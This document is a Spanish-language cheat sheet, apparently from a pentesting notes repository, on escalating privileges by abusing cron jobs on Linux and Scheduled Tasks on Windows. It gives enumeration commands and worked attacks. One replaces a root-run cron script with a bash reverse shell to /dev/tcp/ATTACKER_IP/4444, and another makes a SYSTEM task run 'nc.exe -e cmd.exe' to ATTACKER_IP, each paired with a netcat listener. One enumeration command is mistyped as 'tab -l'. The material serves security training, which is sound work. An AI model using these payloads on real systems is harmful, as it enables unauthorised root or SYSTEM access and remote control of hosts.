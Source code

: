**CheatSheet - Abuso de Cron Jobs**

---

### ✨ Concepto

El abuso de **Cron Jobs** es una técnica de escalada de privilegios que aprovecha tareas programadas para ejecutarse periódicamente (cron en Linux, Scheduled Tasks en Windows). Si un atacante puede modificar el script o el binario que es ejecutado por un cron job que corre con privilegios superiores (ej: root o SYSTEM), podrá ejecutar código malicioso con esos mismos privilegios.

---

### 🔄 Flujo de Ataque (Linux)

1. **Enumerar** tareas cron programadas y sus permisos.
2. **Identificar** tareas ejecutadas como root o con usuarios privilegiados.
3. **Comprobar** si el script/binario ejecutado por cron job es modificable.
4. **Modificar** el archivo por uno malicioso (ej: reverse shell).
5. **Esperar** a que el cron job lo ejecute.
6. **Obtener** una shell elevada.

---

### 🔢 Requisitos

* El cron job debe ejecutarse con privilegios altos.
* El script o binario llamado por cron debe ser modificable por el atacante.
* Puede haber variables ambientales mal configuradas, llamadas sin rutas absolutas, o uso de comodines (`*`).

---

### 🛠 Herramientas útiles

* `crontab`, `cat`, `ls -la`, `find`
* `linPEAS.sh`, `Pspy`, `CronHunter`, `GTFOBins`
* PowerShell para Scheduled Tasks en Windows

---

### 🔹 Comandos de Enumeración (Linux)

```bash
# Listar cron jobs del usuario actual
tab -l

# Listar cron jobs de root (requiere permisos o LPE)
sudo crontab -l -u root

# Ver tareas programadas globales
cat /etc/crontab
ls -la /etc/cron.*

# Buscar archivos modificables por el usuario
find /etc/cron* /var/spool/cron* -type f -exec ls -la {} \;

# Archivos con permisos de escritura
find / -writable -type f 2>/dev/null | grep -E 'cron|\.sh|\.py'
```

---

### 📜 Ejemplo de Abuso (Linux)

**Situación:**
`/etc/crontab` contiene:

```cron
* * * * * root /usr/local/bin/backup.sh
```

Y `backup.sh` es editable por nuestro usuario:

```bash
ls -l /usr/local/bin/backup.sh
-rw-r--rwx 1 root root  43 Jan  1 12:00 /usr/local/bin/backup.sh
```

**Payload malicioso:**

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /usr/local/bin/backup.sh
chmod +x /usr/local/bin/backup.sh
```

**Luego iniciar listener:**

```bash
nc -lvnp 4444
```

---

### 🛠️ Enumeración en PowerShell (Windows Scheduled Tasks)

```powershell
# Ver tareas programadas
Get-ScheduledTask | Where-Object {$_.TaskPath -notlike "\Microsoft*"} | Format-List

# Ver detalles de una tarea
Get-ScheduledTaskInfo -TaskName "NombreDeLaTarea"

# Revisar el binario/script ejecutado
(Get-ScheduledTask -TaskName "NombreDeLaTarea").Actions

# Revisar permisos sobre el archivo ejecutado
Get-Acl "C:\Ruta\al\script.ps1" | Format-List

# Ver tareas ejecutadas como SYSTEM o usuarios con privilegios
Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq "SYSTEM" }
```

---

### 🔹 Ejemplo en Windows

**Tarea programada ejecutando un script como SYSTEM:**

```powershell
Register-ScheduledTask -TaskName "DebugScript" -Trigger (New-ScheduledTaskTrigger -AtStartup) -Action (New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\Temp\debug.ps1") -RunLevel Highest -User "SYSTEM"
```

**debug.ps1:**

```powershell
Start-Process cmd -ArgumentList "/c nc.exe -e cmd.exe ATTACKER_IP 4444"
```

Luego en Kali:

```bash
nc -lvnp 4444
```

---

### ✅ Consejos

* Usa `pspy` para detectar ejecuciones en tiempo real.
* Usa `stat` o `ls -l` para verificar tiempos de modificación.
* En entornos Windows, revisa si puedes editar scripts usados en tareas programadas.
* Siempre valida si la tarea corre como SYSTEM/root.

---

### 📂 Recursos

* [https://gtfobins.github.io/#+cron](https://gtfobins.github.io/#+cron)
* [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-files-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-files-cron-jobs)
* [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
* [https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/)


